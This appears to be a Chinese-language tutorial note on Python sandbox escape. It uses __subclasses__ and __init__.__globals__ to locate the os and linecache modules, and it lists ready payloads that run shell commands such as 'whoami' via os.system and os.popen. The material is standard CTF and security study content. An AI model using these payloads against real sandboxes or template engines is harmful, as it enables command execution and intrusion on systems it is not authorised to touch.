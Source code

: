格式化输出, 方面查看索引位置

```python
for i in enumerate(''.__class__.__mro__[-1].__subclasses__()): print(i)
```

获取某个子类所在命名空间的所有内容 (子类必须重载过 `__init__`)

```python
''.__class__.__mro__[-1].__subclasses__()[59].__init__.__globals__
''.__class__.__mro__[-1].__subclasses__()[59].__init__.func_globals
```

Python 2 两种方式都能用

Python 3 只能用 `__globals__`

查找对应模块

```python
search = ['os', 'open', 'popen', 'linecache', '__builtins__']
for index, item in enumerate(''.__class__.__mro__[-1].__subclasses__()):
    for name in search:
        try:
            if name in item.__init__.__globals__:
                print(name, index, item)
        except:
            pass
```

有时候可能要递归查找, 这里留个坑, 遇到了再写...

### Python 2

回显如下

```python
('linecache', 59, <class 'warnings.WarningMessage'>)
('__builtins__', 59, <class 'warnings.WarningMessage'>)
('linecache', 60, <class 'warnings.catch_warnings'>)
('__builtins__', 60, <class 'warnings.catch_warnings'>)
('__builtins__', 61, <class '_weakrefset._IterationGuard'>)
('__builtins__', 62, <class '_weakrefset.WeakSet'>)
('os', 72, <class 'site._Printer'>)
('__builtins__', 72, <class 'site._Printer'>)
('os', 77, <class 'site.Quitter'>)
('__builtins__', 77, <class 'site.Quitter'>)
('open', 78, <class 'codecs.IncrementalEncoder'>)
('__builtins__', 78, <class 'codecs.IncrementalEncoder'>)
('open', 79, <class 'codecs.IncrementalDecoder'>)
('__builtins__', 79, <class 'codecs.IncrementalDecoder'>)
```

通过 os 和 linecache 包执行命令

```python
# os
''.__class__.__mro__[-1].__subclasses__()[72].__init__.__globals__['os'].system('whoami')
''.__class__.__mro__[-1].__subclasses__()[72].__init__.__globals__['os'].popen('whoami').read()

''.__class__.__mro__[-1].__subclasses__()[72].__init__.__globals__['os'].__dict__['system']('whoami')
''.__class__.__mro__[-1].__subclasses__()[72].__init__.__globals__['os'].__dict__['popen']('whoami').read()

# linecache
''.__class__.__mro__[-1].__subclasses__()[59].__init__.__globals__['linecache'].__dict__['os'].system('whoami')
''.__class__.__mro__[-1].__subclasses__()[59].__init__.__globals__['linecache'].__dict__['os'].popen('whoami').read()
```